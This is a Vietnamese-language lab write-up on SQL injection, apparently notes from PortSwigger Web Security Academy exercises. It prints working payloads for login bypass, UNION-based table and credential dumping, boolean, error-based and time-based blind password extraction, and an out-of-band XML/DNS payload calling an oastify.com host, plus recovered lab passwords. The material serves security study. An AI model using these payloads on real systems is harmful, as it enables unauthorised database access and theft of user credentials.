


# SQLInjection
## SQLInjection là gì
SQLInjection (SQLi) là lỗ hổng bảo mật web mà kẻ tấn công có thể can thiệp vào các truy vấn được thực hiện với cơ sở dữ liệu. Việc can thiệp có thể bao gồm xem dữ liệu trái phép, thậm chí là sửa đổi hoặc xóa toàn bộ dữ liệu.
## Ví dụ về SQL Injection
### Retrieving hidden data (Lấy dữ liệu bị ẩn)
Trong trường hợp này, ví dụ được lấy ở 1 web bán hàng online với nhiều sản phẩm ở các danh mục khác nhau. Khi khách hàng click vào 1 danh mục cụ thể sẽ hiện ra các danh mục tương ứng với sản phẩm ở các danh mục. Ví dụ, khi click vào danh mục  Accessories, sẽ có link tương ứng:
``` javascrypt
https://0a6e004c0300d6b483dd006e0056009b.web-security-academy.net/filter?category=Accessories
```

với link này, sẽ tương ứng với 1 query tới cơ sở dữ liệu là: 
``` sql
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
``` 
Ở đây, mục đích của kẻ tấn công là muốn xem cả những dữ liệu không bị hạn chế bởi `released = 1`. Ý tưởng là làm sao để khi nhận được câu query sẽ comment lại phần này.  
Cách thứ nhất là sử dụng ký hiệu comment trực tiếp, đối với SQL sẽ sử dụng `--`. Kẻ tấn công sửa lại link tương ứng như sau:
```javascrypt
https://0a6e004c0300d6b483dd006e0056009b.web-security-academy.net/filter?category=Accessories'--
```
Câu lệnh SQL tương ứng sẽ là:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Cách thứ 2 là sử dụng `'+OR+1=1--`. Link sẽ được sửa là:
```javascrypt
https://0af20035048c069d8224ab3200e900fd.web-security-academy.net/filter?category=Accessories%27+OR+1=1--
```

Tôi thấy được tất cả các sản phẩm.
### Subverting application logic (Bỏ logic của ứng dụng)
Với trường hợp này, chúng ta đang ở 1 trang đăng nhập với username và password cần được nhập. Bình thường, khi nhập username là `Bob` và password là `lmao` sẽ có câu lệnh SQL tương ứng:
``` sql
SELECT * FROM users WHERE username = 'Bob' AND password = 'lmao'
```
Nếu truy vấn trả về hợp lệ thì đăng nhập thành công. Kẻ tấn công mong muốn đăng nhập không có password. Vậy nên ý tưởng là comment để truy vấn là lấy các `users` có `username = Bob`. Kẻ tấn công sử dụng phương pháp như trên, thêm `--`. Khi đó câu lệnh SQL tương ứng là:
```sql
SELECT * FROM users WHERE username = 'Bob'or 1=1 --'' AND password = ''
```

### Retrieving data from other database tables (Nhận dữ liệu từ bảng khác)
Kẻ tấn công muốn nhận dữ liệu từ bảng khác trong cơ sở dữ liệu. Ý tưởng là sử dụng câu lệnh `UNION` để gộp các bảng khác nhau. 
Câu lệnh SQL gốc là
```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```
Kẻ tấn công sửa đầu vào thành: 
```sql
' UNION SELECT username, password FROM users--
```
Điều này sẽ chỉ đúng khi thỏa mãn: 
- Bản thân các truy vấn trả về cùng số lượng các cột
- Kiểu dữ liệu tương ứng từng cột khi truy vấn là như nhau  

Xuất phát từ điều này, để đoán được số lượng cột, kẻ tấn công sử dụng `ORDER BY` với số lượng tăng dần (mục đích để sắp xếp theo cột thứ n), khi gặp lỗi đó chính là số cột. 
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
Câu lệnh lúc đó sẽ là:
```sql
SELECT * FROM users ORDER BY 1 -- 
```
Cách thứ 2 là thử với 1 loạt các câu lệnh như sau, nếu số lượng NULL gây lỗi đó là số cột
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
Ở lab đoán số cột này, ta sẽ thử order by với 4, ta thấy có lỗi xảy ra:

ta sẽ thử order by với 3, ta thấy không có lỗi xảy ra:

Vậy số cột là 3, ta sử dụng `'SELECT NULL, NULL, NULL--`, ta hoàn thành được bài lab:


Tiếp tục thử với bài lab lấy dữ liệu với UNION attack:
Ta thử với 
```sql
'UNION SELECT username, password FROM users--
```
Ta được trang web có thông tin tài khoản, mật khẩu người dùng trong bảng users:


Thử với 1 tài khoản thành công:

### Blind SQL injection (Trường hợp mù)
Trường hợp này xảy ra khi HTTP response không chứa kết quả của câu truy vấn hoặc chi tiết của lỗi khi trả về


Ý tưởng khi thực hiện là vì các câu lệnh SQL không trả về gì, vậy nên ta sẽ căn cứ vào 1 yếu tố gián tiếp nào đó để thấy được câu lệnh đó đúng hay sai. Ở đây, lỗ hổng nằm ở TrackingID của Cookie. Có 1 câu lệnh SQL ứng với TrackingID này: 
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
Điều đặc biệt là khi câu lệnh SQL này trả về chính xác thì trang web sẽ có hiện phần thông điệp "Welcome back". Dựa vào thông tin ít ỏi này, kẻ tấn công sẽ lần mò từng thông tin trong cơ sở dữ liệu. Ta thử sửa TrackingID đầu vào và thấy sự khác biệt ở thông điệp "Welcome back":


Kẻ tấn công dựa vào việc trả về đúng hay sai của câu lệnh để tiếp tục. Kẻ tấn công sửa đầu vào để xem có bảng users trong cơ sở dữ liệu không, nếu có thông điệp "Welcome back" tức là có bảng này:

Giờ kẻ tấn công tiếp tục thử có username là administrator trong bảng users hay không:

Kẻ tấn công tiếp tục thử xem password tương ứng với username = 'administrator' có bao nhiêu ký tự:


Vậy password > 19 ký tự nhưng không > 20 ký tự nên password có 20 ký tự
Giờ ta sẽ tiến hành 1 cuộc tấn công bruteforce để tìm được password. Đầu tiên ta tiến hành thử với ký tự đầu tiên trong password, ứng với câu lệnh SQL được thêm vào input:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

Kết quả thu được ký tự đầu tiên là 'm'

Với các ký tự còn lại:


Mật khẩu là: mcwlvz7b620v3vgeryry


### SQL Injection với input là XML
```
XML là 1 ngôn ngữ đánh dấu định dạng để lưu trữ và trao đổi dữ liệu cấu trúc, có dạng các thẻ kiểu <bookstore> </bookstore>
```


### SQL Injection để lấy thông tin kiểu và version 
Nhiệm vụ của bài lab là xem version của 1 số kiểu cơ sở dữ liệu. Đầu tiên, với MySQL và Microsoft.  
Ta tiến hành thử với số cột bằng 2, thấy được thành công:

Ở trên Burp Suite:

Tiếp tục thử với thông tin version cần lấy ta thấy được kết quả:

Tương ứng trên Burp Suite:

Tương tự với cơ sở dữ liệu Oracle. Tuy nhiên, chúng ta cần chú ý cần bám vào bảng `dual` là 1 bảng tích hợp có sẵn của Oracle để bám vào 
Thử để đoán số cột, ta được thành quả như sau:

Ta thử để tìm version trong bảng `$version`


### Lab: SQL injection UNION attack, finding a column containing text
Nhiệm vụ: Sử dụng UNION Attack để tìm xem cột nào là cột dạng text 
Thử với 'UNION SELECT null, null--
 
Thử với 'UNION SELECT null, null, null--, thấy web không bị lỗi. Như vậy bảng này có 3 cột
 
'UNION SELECT ‘a’, null, null—thấy có lỗi
 
'UNION SELECT null, ‘a’, null—không có lỗi. Vậy có ở giữa là cột có dạng string
 
Bài lab yêu cầu phải hiện cụm ‘QuweVH’ thêm vào hàng tiếp, vậy nên thay ‘a’ bằng cụm này bài lab được hoàn thành

### Lab: SQL injection UNION attack, retrieving multiple values in a single column
Điểm mấu chốt bài lab: Trong một số trường hợp, câu truy vấn chỉ trả về 1 cột, vì vậy nếu muốn nhận được thông tin từ nhiều cột trong một cột phải ghép (concate) các giá trị của các cột với nhau. Ví dụ trong Oracle:
' UNION SELECT username || '~' || password FROM users—
Nhiệm vụ bài lab: Sử dụng UNION Attack để nhận thông tin từ bảng khác (tên bảng khác là users) với các cột là username, password
' UNION SELECT username || '~' || password FROM users—
 
' UNION SELECT null, null, null—
' UNION SELECT null, null--
 
' UNION SELECT null, ‘a’--
 
 
' UNION SELECT 'a', 'a'--
 
' UNION SELECT null, username || '~' || password FROM users—
 
### Lab: SQL injection attack, listing the database contents on non-Oracle databases
Nhiệm vụ bài lab: Sử dụng UNION Attack để lấy các thông tin từ information Schema (nơi chứa thông tin về database) để lấy thông tin bảng chứa username, password và thực hiện lấy thông tin username, password
Mấu chốt của bài lab:
 
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
 
' UNION SELECT NULL, NULL—
 
' UNION SELECT TABLE_TYPE, TABLE_NAME from information_schema.tables –
 

' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users_ppqzxm' --
 
' UNION SELECT username_rcqolz, password_lxsfnj FROM users_ppqzxm –
 

### Lab: SQL injection attack, listing the database contents on Oracle
Nhiệm vụ của bài lab: Sử dụng UNION Attack để lấy các thông tin từ information Schema (nơi chứa thông tin về database) để lấy thông tin bảng chứa username, password và thực hiện lấy thông tin username, password với database của Oracle
' UNION SELECT ‘abc’, ‘abc’ FROM dual –
 
' UNION SELECT 'lmao', table_name from all_tables –
' UNION SELECT tablespace_name, table_name from all_tables –
 
' UNION SELECT  column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS_WIEJND'—
 
' UNION SELECT  USERNAME_EPNJKE, PASSWORD_JITDIE FROM USERS_WIEJND—
 
### Lab: Blind SQL injection with conditional errors
Nhiệm vụ bài lab: Sử dụng lỗ hổng SQL Injection mù để khai thác dựa vào SQL errors. Cần lấy được thông tin bảng users với cột username và password
Mấu chốt bài lab: Câu query không trả về hoặc không tác động nhiều đến response, do đó, cần khai thác khi SQL error diễn ra. Để thử, chúng ta thử với 2 input như sau:
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
Nếu điều kiện trong when đúng thì SQL error sẽ hiện ra. Vậy payload ở đây sẽ là:
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
Bắt được request như sau:
 
Đầu tiên cần xem bảng users có tồn tại hay không. Ta thử câu lệnh với 1 bảng đã tồn tại là bảng dual, thấy rằng response trả về không có lỗi
' AND (SELECT 'lmao' FROM dual)='lmao'—
 
Thử với bảng lmao là 1 bảng không tồn tại, thấy có lỗi:
 
Ta sẽ thử với bảng users, thấy rằng bảng này có tồn tại:
 
Giờ thử với câu lệnh SQL có điều kiện, 
 
 
Có lỗi xảy ra
Ta thực hiện bruteforce với payload sau:
' AND (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'c' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ='a
 
Dễ thấy kí tự ‘l’ có lỗi còn các ký tự khác thì không vậy nên password bắt đầu bằng l
Tiếp theo, cần xem password có bao nhiêu ký tự, ta thử 2 payload:
' AND (SELECT CASE WHEN LENGTH(password) > 19 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ='a
' AND (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ='a
 
Payload đầu lỗi, thứ 2 không có lỗi vậy nên password có 20 ký tự
1	2	3	4	5	6	7	8	9	10	11	12	13	14	15	16	17	18	19	20
l	8	6	m	7	r	j	2	c	s	r	0	f	6	w	6	1	x	y	s
Mật khẩu là: l86m7rj2csr0f6w61xys

### Lab: Visible error-based SQL injection
Nhiệm vụ bài lab: Sử dụng lỗ hổng SQL Injection mù để khai thác dựa vào SQL errors. Cần lấy được thông tin bảng users với cột username và password
Mấu chốt bài lab: Khai thác lỗi SQL được hiển thị. Ở đây lỗi là việc biến đổi từ dạng này sang dạng khác (string sang int). Lỗi này trực tiếp hiển thị ra câu truy vấn hoặc dữ liệu trực tiếp của bảng.
 
Ta thử với ' AND 1 = CAST((SELECT 1) AS int)--, thấy rằng không có lỗi 
 
Ta sẽ khai thác với câu lệnh lấy cột username ở hàng đầu của bảng users bằng cách thêm ' AND 1 = CAST((SELECT username FROM users LIMIT 1) AS int)--. Lỗi xảy ra nhưng câu lệnh SQL của chúng ta không được thực hiện đầy đủ vì giới hạn ký tự 

Xóa phần Tracking ID trước đó và thử lại, có lỗi không thể biến “administrator” thành int. Vậy cột username, hàng đầu bảng users là tài khoản administrator chúng ta cần tìm. Giờ ta lấy ra mật khẩu tương ứng ở hàng này là hoàn thành bài lab.
 
Mật khẩu dễ dàng hiện ra
 
### Lab: Blind SQL injection with time delays
Nhiệm vụ của bài lab: Thực hiện tấn công SQL Injection mù. Trong trường hợp này, response của SQL không trả về tác động 1 phần khác trong web hoặc không hiện lỗi SQL trên response trả về. Trong bài lab này, cần inject câu lệnh SQL để có time delay.
Để thực hiện bài lab này, ta chỉ cần chèn thêm payload: '||pg_sleep(10)--
Lab: Blind SQL injection with time delays and information retrieval
Nhiệm vụ của bài lab: Thực hiện tấn công SQL Injection mù. Trong trường hợp này, response của SQL không trả về tác động 1 phần khác trong web hoặc không hiện lỗi SQL trên response trả về. Trong bài lab này, cần inject câu lệnh SQL để có time delay để qua đó lấy được username, password từ bảng users với username = administrator
'||SELECT CASE WHEN ((SELECT SUBSTRING(password,1,1))='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users where username='administrator'--
'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) –
Lab: Blind SQL injection with out-of-band interaction
Nhiệm vụ của bài lab: Thực hiện tấn công SQL Injection mù. Trong trường hợp này, response của SQL không trả về tác động 1 phần khác trong web hoặc không hiện lỗi SQL trên response trả về, cũng không thể inject câu lệnh SQL để có time delay. Trong trường hợp này, cần bám vào các vấn đề liên quan đến mạng, cụ thể là DNS. 
||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http:// vnmy5l8nygywvu3m38dqyyr8tzzqngb5.oastify.com/"> %remote;]>'),'/l') FROM dual)--


 


